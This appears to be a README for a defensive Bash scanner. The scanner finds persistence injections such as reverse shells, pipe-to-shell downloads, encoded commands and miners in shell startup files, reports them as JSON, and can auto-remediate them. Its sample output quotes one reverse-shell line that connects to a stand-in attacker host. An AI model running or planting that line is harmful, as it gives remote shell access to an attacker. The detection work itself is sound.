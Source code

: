 ## Detect Persistence Startup Injection

This script scans for malicious persistence mechanisms in startup files and shell configurations, providing a JSON-formatted output for integration with security tools like OSSEC/Wazuh.

### Overview

The `Detect-Persistence-Startup-Injection.sh` script identifies potential security risks in system and user startup files by analyzing their content for suspicious patterns such as reverse shells, encoded commands, and cryptocurrency miners.

### Script Details

#### Core Features

1. **Shell Configuration Scanning**: Examines system-wide and user-specific shell configuration files.
2. **Pattern Detection**: Identifies multiple categories of malicious content:
   - Pipe-to-shell downloads
   - Base64 encoded executions
   - Reverse shells
   - Cryptocurrency miners
   - Environment variable hijacking
   - Malicious prompt commands and traps
3. **Auto-Remediation**: Optional capability to safely comment out suspicious lines.
4. **JSON Output**: Generates a structured JSON report for integration with security tools.
5. **Logging Framework**: Provides detailed logs with automatic rotation.

### How the Script Works

#### Command Line Execution
```bash
./Detect-Persistence-Startup-Injection.sh [--fix]
```

#### Parameters

| Parameter | Type | Default Value | Description |
|-----------|------|---------------|-------------|
| `--fix` | flag | false | Enable auto-remediation for high/critical findings |
| `RECENT_DAYS` | int | 90 | Number of days to consider for recent modifications |
| `HASH_ALL` | bool | 0 | Calculate SHA256 for all files, not just suspicious ones |
| `SKIP_ETC_PROFILED` | bool | 0 | Skip scanning of /etc/profile.d directory |
| `VERBOSE` | bool | 0 | Enable verbose logging |

#### Example Invocation

```bash
# Basic scan
./Detect-Persistence-Startup-Injection.sh

# Scan with auto-remediation
./Detect-Persistence-Startup-Injection.sh --fix

# Scan with custom parameters
RECENT_DAYS=30 HASH_ALL=1 ./Detect-Persistence-Startup-Injection.sh
```

### Script Execution Flow

#### 1. Initialization Phase
- Sets up logging and configuration parameters
- Prepares temporary working directory
- Clears previous execution logs

#### 2. Target Collection
- Gathers system-wide startup files (`/etc/profile`, `/etc/bash.bashrc`)
- Collects user-specific shell configuration files
- Identifies valid shell users and their home directories

#### 3. File Analysis
- Examines each target file for suspicious patterns
- Calculates file scores based on findings
- Records file metadata (permissions, ownership, timestamps)

#### 4. Severity Assessment
- Determines overall severity based on findings:
  - `critical`: Reverse shells or recent modifications of high-severity items
  - `high`: Pipe downloads or encoded executions
  - `medium`: Miners, environment hijacking, or prompt traps
  - `low`: No significant findings

#### 5. Remediation (Optional)
- Creates backups of affected files
- Comments out suspicious lines
- Records remediation actions

### JSON Output Format

#### With Findings
```json
{
  "timestamp": "2025-07-18T10:30:45+00:00",
  "host": "hostname",
  "action": "Detect-Persistence-Startup-Injection.sh",
  "data": {
    "targets": [
      {
        "path": "/home/user/.bashrc",
        "exists": "true",
        "mtime": "2025-07-18T10:20:45Z",
        "size": "2048",
        "sha256": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
        "owner": "user",
        "perm": "644",
        "world_writable": "false",
        "suspicious": true,
        "score": 50,
        "hits": [
          {
            "line": 123,
            "category": "revshell",
            "text": "bash -i >& /dev/tcp/evil.com/4444 0>&1"
          }
        ],
        "recent_mod": true
      }
    ],
    "severity": "critical",
    "recent_days": "90",
    "hash_all": "0",
    "fix_applied": true,
    "remediations": [
      {
        "file": "/home/user/.bashrc",
        "backup": "/home/user/.bashrc.bak.20250718103045",
        "commented_lines": [123]
      }
    ]
  },
  "copilot_soar": true
}
```

### Implementation Guidelines

#### Best Practices
- Run with appropriate permissions to access all target files
- Regularly update pattern matching rules
- Test auto-remediation in a safe environment first
- Monitor log rotation and disk usage

#### Security Considerations
- Run with minimal required privileges
- Protect backup files from unauthorized access
- Validate all file paths before processing
- Handle temporary files securely

### Troubleshooting

#### Common Issues
1. **Permission Errors**: Check access rights for target files
2. **False Positives**: Review and update benign pattern list
3. **Remediation Failures**: Verify write permissions and disk space
4. **Performance Issues**: Monitor file count and processing time

#### Debugging
Enable verbose logging:
```bash
VERBOSE=1 ./Detect-Persistence-Startup-Injection.sh
```

### Contributing

When modifying this script:
1. Add new detection patterns carefully to minimize false positives
2. Update benign pattern list as needed
3. Test thoroughly with various shell configurations
4. Document pattern
